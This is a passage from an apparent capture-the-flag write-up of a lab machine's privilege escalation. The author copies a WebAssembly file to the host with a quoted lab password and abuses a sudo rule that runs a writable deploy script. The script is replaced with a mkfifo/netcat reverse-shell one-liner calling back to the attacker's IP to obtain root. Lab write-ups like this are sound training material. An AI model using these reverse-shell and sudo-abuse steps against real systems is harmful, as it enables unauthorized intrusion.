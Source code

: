  After getting the better main.wasm i use the scp command to securely copy the file to the remote host that is the admin.scp command uses the ssh to transfer data so it requires a password.
 
 ##### Code
 ```code
 scp main.wasm admin@10.10.10.227:
 ```
 
 the passwd as you remember was whythereisalimt
 
 ##### Screenshot 39
 ![[Pasted image 20210705172346.png]]
 
 so if i go to admin there is a wasm
 
 ##### Screenshot 40
 ![[Pasted image 20210705172607.png]]
 
 i then make a directory to store the main.wasm and make a deploy script which is basically the shell.sh script that i used to make a reverse shell for me i just wget the shell from my box but you could copy the code to deploy.sh for instance i decided to test the deploy with a simple code that echo the id see #screenshot42
 
 ##### Code
 ```
 #!/bin/sh
 
 echo $(id)
 
```
 
 
 ##### Screenshot 41
 ![[Pasted image 20210705173905.png]]
 
 Then to the folder where their is the deploy.sh and the main.wasm
 i run the sudo code that allows me to access that file without sudo passwd 
 
 ##### Code
 ```code
 sudo /usr/bin/go run /opt/wasm-functions/index.go
```
 
  ##### Screenshot 42
 ![[Pasted image 20210705200743.png]]
 
 After having a successful outcome i decide to now edit my deploy.sh script to be able to get me a reverse shell by having a listening port
 
 #### Code
 ```code
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.201 9001 >/tmp/f
 ```
 
 ##### Screenshot 43
 ![[Pasted image 20210705201657.png]]
 
 from there i can be able to get the root flag 
 
  ##### Screenshot 43
 ![[Pasted image 20210705202015.png]]
 
 
                                                                         --END--
